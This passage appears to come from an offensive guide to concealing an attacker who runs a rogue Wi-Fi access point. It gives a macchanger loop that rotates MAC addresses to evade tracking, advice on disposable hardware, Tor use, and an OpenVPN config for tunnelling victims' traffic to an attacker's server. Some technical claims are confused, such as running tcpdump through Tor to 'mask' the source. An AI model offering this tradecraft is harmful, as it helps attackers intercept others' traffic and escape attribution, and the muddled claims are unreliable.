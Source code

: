 #### **Implementation**  
- **Tool**: `macchanger` is the primary utility for randomizing or spoofing MAC addresses.  
- **Scripted Automation**:  
  ```bash
  while true; do  
    macchanger -r wlan0  # Assign a random MAC address  
    sleep 180            # Rotate every 3 minutes  
  done  
  ```  
- **Manual Spoofing**:  
  ```bash
  macchanger -m 00:11:22:33:44:55 wlan0  # Set a specific MAC address  
  ```  

#### **Strategic Advantages**  
- **Evasion of Static Tracking**: Network scanners that rely on MAC address databases (e.g., WiGLE) cannot correlate the rogue AP to a specific device.  
- **Hardware Isolation**: Using disposable hardware (e.g., Raspberry Pi or USB-based routers) further decouples the rogue AP from the attacker’s identity.  

---

### **2. Encrypted Traffic Obfuscation**  
Encrypted traffic obfuscation ensures that the attacker’s IP address and data flow remain hidden from network observers. This is achieved through tools like **Tor**, **OpenVPN**, and **HTTPS spoofing**.  

#### **Tor Integration**  
- **Purpose**: Route all traffic through the Tor network to anonymize the source IP.  
- **Implementation**:  
  ```bash
  torify tcpdump -i wlan0  # Capture packets while masking the source IP  
  ```  
- **Advanced Use**: Combine Tor with packet sniffing tools (e.g., Wireshark) to analyze traffic without exposing the attacker’s location.  

#### **OpenVPN Tunneling**  
- **Purpose**: Encrypt all client traffic between the rogue AP and the attacker’s server.  
- **Implementation**:  
  - Configure OpenVPN on the rogue AP to tunnel data through an encrypted channel.  
  - Example configuration snippet:  
    ```bash
    client  
    dev tun  
    proto udp  
    remote vpn.example.com 1194  
    resolv-retry infinite  
    nobind  
    persist-key  
    persist-tun  
    ca ca.crt  
    cert client.crt  
    key client.key  
    remote-cert-tls server  
    cipher AES-256-CBC  
    ```  

